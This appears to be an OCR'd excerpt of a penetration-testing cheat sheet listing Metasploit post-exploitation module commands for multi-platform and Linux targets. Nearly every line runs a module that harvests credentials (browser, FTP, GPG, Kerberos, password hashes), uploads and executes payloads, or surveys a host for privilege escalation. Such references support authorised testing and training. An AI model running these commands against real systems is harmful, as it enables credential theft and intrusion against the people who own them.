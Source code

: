 run post/multi/manage/system_session

run post/multi/gather/filezilla_client_cred

run post/multi/gather/thunderbird_creds

run post/multi/manage/upload_exec

run post/multi/gather/find_vmx

run post/multi/gather/tomcat_gather

run post/multi/manage/zip

run post/multi/gather/firefox_creds

run post/multi/gather/ubiquiti_unifi_backup

run post/multi/recon/local_exploit_suggester

run post/multi/gather/gpg_creds

run post/multi/gather/unix_cached_ad_hashes

run post/multi/recon/multiport_egress_traffic

run post/multi/gather/grub_creds

run post/multi/gather/unix_kerberos_tickets

run post/multi/recon/sudo_commands

run post/multi/gather/irssi_creds

run post/multi/gather/wlan_geolocate

run post/multi/sap/smdagent_get_properties

#### 2.3.4 - Linux Modules

run post/linux/busybox/enum_connections

run post/linux/gather/enum_commands

run post/linux/gather/hashdump

run post/linux/busybox/enum_hosts

run post/linux/gather/enum_configs

run post/linux/gather/mount_cifs_creds

run post/linux/busybox/jailbreak

run post/linux/gather/enum_containers

run post/linux/gather/openvpn_credentials

run post/linux/busybox/ping_net

run post/linux/gather/enum_nagios_xi

run post/linux/gather/phpmyadmin_credsteal

run post/linux/busybox/set_dmz
